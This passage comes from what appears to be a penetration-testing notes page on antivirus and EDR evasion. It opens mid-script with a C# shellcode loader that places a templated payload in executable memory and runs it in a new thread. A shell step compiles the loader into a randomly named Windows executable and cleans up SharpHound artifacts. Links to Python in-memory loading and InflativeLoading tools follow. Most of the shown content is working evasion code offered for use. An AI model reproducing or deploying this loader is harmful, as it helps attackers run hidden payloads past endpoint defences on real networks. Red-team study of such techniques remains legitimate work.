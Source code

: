 ```bash
        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, ulong dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        static void Main(string[] args)
        {
            byte[] buf = new byte[$BUFSIZE] { $BUF };
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (ulong)buf.Length, 0x1000, 0x40);
            Marshal.Copy(buf, 0, addr, buf.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
        }
    }
}
EOF

mcs -platform:x64 -t:winexe "/tmp/$RNDNAME.cs" -out:"$RNDNAME.exe"
file "$RNDNAME.exe"
rm "/tmp/SharpHound.exe" "/tmp/SharpHound.bin" "/tmp/$RNDNAME.cs"
```
{% endcode %}

{% hint style="info" %}
This technique is enhanced and automated [here](https://gist.github.com/snovvcrash/30bd25b1a5a18d8bb7ce3bb8dc2bae37).
{% endhint %}



### Python

{% content-ref url="/pentest/infrastructure/ad/av-edr-evasion/README.md#pyramid" %}
[README.md](README.md)
{% endcontent-ref %}

- [https://www.naksyn.com/edr%20evasion/2023/06/01/improving-the-stealthiness-of-memory-injections.html](https://www.naksyn.com/edr%20evasion/2023/06/01/improving-the-stealthiness-of-memory-injections.html)
- [https://github.com/naksyn/PythonMemoryModule](https://github.com/naksyn/PythonMemoryModule)
- [https://github.com/naksyn/ModuleShifting](https://github.com/naksyn/ModuleShifting)



### InflativeLoading

- [https://winslow1984.com/books/malware/page/reflectiveloading-and-inflativeloading](https://winslow1984.com/books/malware/page/reflectiveloading-and-inflativeloading)
- [https://github.com/senzee1984/InflativeLoading](https://github.com/senzee1984/InflativeLoading)
